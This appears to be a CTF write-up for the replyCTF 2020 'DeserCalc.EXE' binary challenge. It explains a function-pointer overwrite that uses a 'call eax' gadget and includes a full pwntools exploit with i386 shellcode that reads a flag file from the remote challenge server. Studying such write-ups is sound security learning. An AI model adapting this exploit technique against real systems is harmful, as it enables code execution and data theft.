 ```yaml
---
layout: post
category: binary
title: replyCTF 2020 - DeserCalc.EXE
tags: 
    - hrshk
---
```


# Overview
This is the first binary(category) challenge worth 100 points. I used binary ninja for reversing purposes. We are provided with two binaries, a client and a server. I used pwntools, which is a great python library to easily connect to things.

The client binary is not needed to solve the challenge. The NX bit and RELOCS are disabled so we can use arbitrary shellcode. (more on this later).

First the binary first asks for a password, then compares the input to a string which is hardcoded into the challenge itself, which is `JustPwnThis!`.
It basically does some allocations and frees. Takes our user input two times. Also It stores a function pointer inside of our input buffer.
Since we can overwrite this pointer, we modify it to call an arbitrary address. I used: `0x08049019 #call eax`. A ROP gadget which I found using a tool called ROPgadget. Since EAX pointed to our input and the nx bit was disabled, we got shellcode execution. So we can now craft some shellcode.

I found out that the fd for I/O was always `4` on the remote. So i first opened `/proc/self/maps` to see which directory the flag might be in. Then I opened `/home/user/flag.txt`, I guessed the flag file name xD. And we got our flag.

Here is my exploit:
```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

#exe
exe = ELF('./server')

#Gadgets
call_eax = 0x08049019

#Addr
mess = 0x0804A8C8
establish = 0x0804A06F
idk = 0x08049B9D
ret = 0x0804a8c7

#Exploit
if __name__ =='__main__':
#    p = process('./server')
    io = remote('gamebox1.reply.it',27364)

#    io = remote('localhost',8000)
    io.sendlineafter('Password: \n','JustPwnThis!')
    L_ROP = p32(call_eax)
    shellcode = asm(f'''
        mov eax,6
        mov ebx,1
        int 0x80
        mov eax, 0x29
        mov ebx, 0x4
        int 0x80
        mov al, 5
        mov ebx, esp
        add ebx, 0x3e+0x16+9
        mov ecx, 0
        int 0x80
        mov ebx, eax
        mov al,3
        mov ecx, esp
        add ecx, 0x100
        mov edx, 0x100
        int 0x80
        mov eax, 4
        mov ebx, 1
        int 0x80
    ''',arch='i386')

    io.sendlineafter('\x00',L_ROP+shellcode+b'/home/user/flag.txt')
    L_ROP = 'JUNK'
#    pause()
    io.sendlineafter('\x00',L_ROP)
    io.interactive()
```
